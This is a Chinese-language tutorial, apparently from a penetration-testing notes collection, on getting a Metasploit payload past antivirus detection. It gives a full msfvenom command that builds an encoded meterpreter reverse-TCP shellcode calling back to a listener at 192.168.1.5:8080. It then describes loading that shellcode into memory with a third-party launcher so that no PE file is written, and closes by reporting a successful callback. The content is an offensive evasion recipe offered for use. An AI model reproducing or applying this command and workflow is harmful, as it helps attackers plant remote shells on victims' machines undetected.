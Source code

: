 目前的反病毒安全软件，常见有三种，一种基于特征，一种基于行为，一种基于云查杀。云查杀的特点基本也可以概括为特征查杀。无论是哪种，都是特别针对 PE 头文件的查杀。尤其是当 payload 文件越大的时候，特征越容易查杀。

既然知道了目前的主流查杀方式，那么反制查杀，此篇采取特征与行为分离免杀。避免 PE 头文件，并且分离行为，与特征的综合免杀。适用于菜刀下等场景，也是我在基于 windows 下为了更稳定的一种常用手法。载入内存。

### 0x00:以msf为例：监听端口  
![](media/e443cf6dc02a20a342291d5c06ccec4f.jpg)

### 0x01：这里的payload不采取生成pe文件，而采取shellcode方式，来借助第三方直接加载到内存中。避免行为：

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.5 lport=8080 -e x86/shikata_ga_nai -i 5 -f raw > test.c
```
![](media/1a912494f05f8ca99edf268225e1a66f.jpg)

### 0x02:既然是shellcode方式的payload，那么一定需要借助第三方来启动，加载到内存。执行shellcode，自己写也不是很难，这里我借用一个github一个开源：  
https://github.com/clinicallyinane/shellcode_launcher/

**作者的话：建议大家自己写shellcode执行盒，相关代码网上非常成熟。如果遇到问题，随时可以问我。**  

![](media/168b6471db08e03cbca360642e0bcb0c.jpg)

生成的payload大小如下：476字节。还是 X32位的 payload。  
![](media/92ab172a1914132282d7a5bfd14ab31d.jpg)

国内世界杀毒网：  
![](media/7749133623a7d6b774e000605ce77a57.jpg)

国际世界杀毒网：  
![](media/663bc4d955c71bf9882c9a31761e0c14.jpg)

上线成功。  
![](media/be28c1202684af6369757b813f4d9649.jpg)


>   Micropoor
